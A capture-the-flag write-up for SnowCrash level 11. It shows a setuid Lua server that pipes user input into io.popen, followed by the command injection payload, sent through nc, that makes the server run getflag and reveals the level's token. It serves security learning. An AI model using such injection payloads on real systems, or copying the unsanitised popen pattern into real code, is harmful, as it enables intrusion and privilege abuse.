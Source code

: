 # LEVEL 11

- Let's check what we have: `ls -l`:
```
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```
We discover a new type of file with [lua extension](https://www.lua.org/about.html)
- `cat level11.lua`
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

1. On voit dans ce code que ca lance un server qui ecoute sur localhost:5151 \
2. Quand on le lance on a une erreur comme quoi l'addresse n'est pas libre:
```
level11@SnowCrash:~$ ./level11.lua
lua: ./level11.lua:3: address already in use
stack traceback:
	[C]: in function 'assert'
	./level11.lua:3: in main chunk
	[C]: ?
```
3. On essaye donc de communiquer avec ce server qui a ete lancé: \
`nc localhost 5151` \
Le server nous demande un password.
4. On capte qu'il faut bidouiller l'appel a `popen` pour afficher notre flag:
on aimerait que la commande :
```lua
prog = io.popen("echo "..pass.." | sha1sum", "r")
```
se transforme en:
```lua
prog = io.popen("echo 'lol'; getflag > /var/crash/flag11; echo 'lol'  | sha1sum", "r")
```
- On relance `nc localhost 5151` et on donne le mdp suivant:
```
level11@SnowCrash:~$ nc localhost 5151
Password: 'lol'; getflag > /var/crash/flag11; echo 'lol'
Erf nope..
level11@SnowCrash:~$ cat /var/crash/flag11
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

## ⚡ Flag
`fa6v5ateaw21peobuub8ipe6s`
